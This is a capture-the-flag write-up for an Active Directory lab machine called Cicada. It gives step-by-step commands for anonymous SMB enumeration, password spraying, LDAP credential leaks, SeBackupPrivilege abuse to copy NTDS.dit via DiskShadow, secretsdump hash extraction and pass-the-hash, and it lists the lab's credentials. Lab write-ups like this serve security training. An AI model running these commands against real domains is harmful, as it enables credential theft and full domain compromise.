









Cicada
Overview
Cicada is an easy Active Directory box where multiple small weaknesses chain into full domain compromise.
The path starts with anonymous SMB access and a leaked default password, then pivots through RID-based user
enumeration, password spraying, LDAP description leaks, and credentials embedded in a DEV backup script.
Final escalation abuses SeBackupPrivilege as a Backup Operators user to copy
NTDS.dit and SYSTEM via VSS, dump domain hashes offline, and perform
Pass-the-Hash as Administrator.
1. Enumeration
Initial full scan:
nmap -sC -sV -p- -T4 -oN scans/nmap_full.txt 10.129.20.27Interesting ports confirmed a Domain Controller profile:
- 53 DNS
- 88 Kerberos
- 389/636 LDAP
- 445 SMB
- 5985 WinRM
2. Anonymous SMB access (HR share)
List shares:
smbclient -L //10.129.20.27 -NConnect to HR:
smbclient //10.129.20.27/HR -NList files:
lsDownload file:
get "Notice from HR.txt"Read file locally:
cat "Notice from HR.txt"The HR notice leaks a default password used for onboarding accounts:
Cicada$M6Corpb*@Lp#nZp!8
3. Enumerate valid users with RID brute force
crackmapexec smb 10.129.20.27 -u "guest" -p "" --rid-bruteThis reveals valid users including:
- john.smoulder
- sarah.dantelia
- michael.wrightson
- david.orelious
- emily.oscars

Save users list:
echo -e "john.smoulder\nsarah.dantelia\nmichael.wrightson\ndavid.orelious\nemily.oscars" > users.txt4. Password spraying with the HR password
crackmapexec smb 10.129.20.27 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'Valid credentials found:
michael.wrightson : Cicada$M6Corpb*@Lp#nZp!8
5. Authenticated LDAP enumeration as Michael
Dump LDAP data with Michael's credentials:
ldapsearch -x -H ldap://10.129.20.27 \
-D 'michael.wrightson@cicada.htb' \
-w 'Cicada$M6Corpb*@Lp#nZp!8' \
-b "DC=cicada,DC=htb" > scans/ldap_auth.txtSearch interesting fields:
grep -i "description" scans/ldap_auth.txtA description entry leaks another password:
description: Default container for upgraded user accounts
description: Default container for upgraded computer accounts
description: Default container for domain controllers
description: Builtin system settings
...
description: Just in case I forget my password is aRt$Lp#7t*VQ!3Map it to a user by spraying known usernames:
crackmapexec smb 10.129.20.27 -u users.txt -p 'aRt$Lp#7t*VQ!3' --continue-on-successResult:
david.orelious : aRt$Lp#7t*VQ!3
6. DEV share as David
Check readable shares:
crackmapexec smb 10.129.20.27 -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares[eu-dedivip-5][10.10.14.153][moree39@htb-olsdstqtyr][~]$ crackmapexec smb 10.129.20.27 -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares
SMB 10.129.20.27 445 CICADA-DC [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB 10.129.20.27 445 CICADA-DC [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3
SMB 10.129.20.27 445 CICADA-DC [*] Enumerated shares
SMB 10.129.20.27 445 CICADA-DC Share Permissions Remark
SMB 10.129.20.27 445 CICADA-DC ----- ----------- ------
SMB 10.129.20.27 445 CICADA-DC ADMIN$ Remote Admin
SMB 10.129.20.27 445 CICADA-DC C$ Default share
SMB 10.129.20.27 445 CICADA-DC DEV READ
SMB 10.129.20.27 445 CICADA-DC HR READ
SMB 10.129.20.27 445 CICADA-DC IPC$ READ Remote IPC
SMB 10.129.20.27 445 CICADA-DC NETLOGON READ Logon server share
SMB 10.129.20.27 445 CICADA-DC SYSVOL READ Logon server shareConnect to DEV:
smbclient //10.129.20.27/DEV -U 'cicada.htb\david.orelious%aRt$Lp#7t*VQ!3'List files:
lsDownload script:
get Backup_script.ps1Read script:
cat Backup_script.ps1The script contains hardcoded credentials:
$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
7. WinRM shell as Emily
Validate WinRM:
crackmapexec winrm 10.129.20.27 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'Open shell:
evil-winrm -i 10.129.20.27 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'Check context:
whoami

8. Privilege escalation path (Backup Operators)
Check group membership:
whoami /groupsCheck token privileges:
whoami /privKey findings:
- Member of
BUILTIN\Backup Operators SeBackupPrivilegeenabledSeRestorePrivilegeenabled
On a Domain Controller, this is ideal for extracting NTDS.dit and SYSTEM.
9. Create VSS shadow copy
Create temp workspace:
mkdir C:\TempWrite DiskShadow script:
Set-Content -Path C:\Temp\shadow.txt -Value @(
"set context persistent nowriters",
"add volume c: alias temp",
"create",
"expose %temp% z:"
)Run DiskShadow:
diskshadow /s C:\Temp\shadow.txt10. Copy NTDS and SYSTEM
Copy NTDS:
robocopy /b Z:\Windows\NTDS C:\Temp ntds.ditCopy SYSTEM:
robocopy /b Z:\Windows\System32\config C:\Temp SYSTEMDownload NTDS:
download C:\Temp\ntds.ditDownload SYSTEM:
download C:\Temp\SYSTEM11. Dump hashes offline
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL | tee hashes.txtAdministrator NTLM hash obtained:
2b87e7c93a3e8a0ea4a581937016f34112. Pass-the-Hash as Administrator
Authenticate with NTLM hash:
evil-winrm -i 10.129.20.27 -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341Verify identity:
whoamiRead root flag:
type C:\Users\Administrator\Desktop\root.txt

Credentials Discovered
- Default HR password:
Cicada$M6Corpb*@Lp#nZp!8 - michael.wrightson:
Cicada$M6Corpb*@Lp#nZp!8 - david.orelious:
aRt$Lp#7t*VQ!3 - emily.oscars:
Q!3@Lp#M6b*7t*Vt - Administrator NTLM:
2b87e7c93a3e8a0ea4a581937016f341
Attack Chain
Anonymous HR share -> leaked default password -> RID brute users -> spray to Michael -> LDAP description leak -> David credentials -> DEV script leaks Emily credentials -> WinRM as Emily -> SeBackupPrivilege abuse -> dump NTDS.dit/SYSTEM -> Pass-the-Hash as Administrator.
Takeaways
- Anonymous SMB exposure can be enough to start a full domain compromise chain.
- Credential hygiene failures in LDAP descriptions and scripts are highly exploitable.
- Backup privileges on a DC are equivalent to high-risk secrets exposure.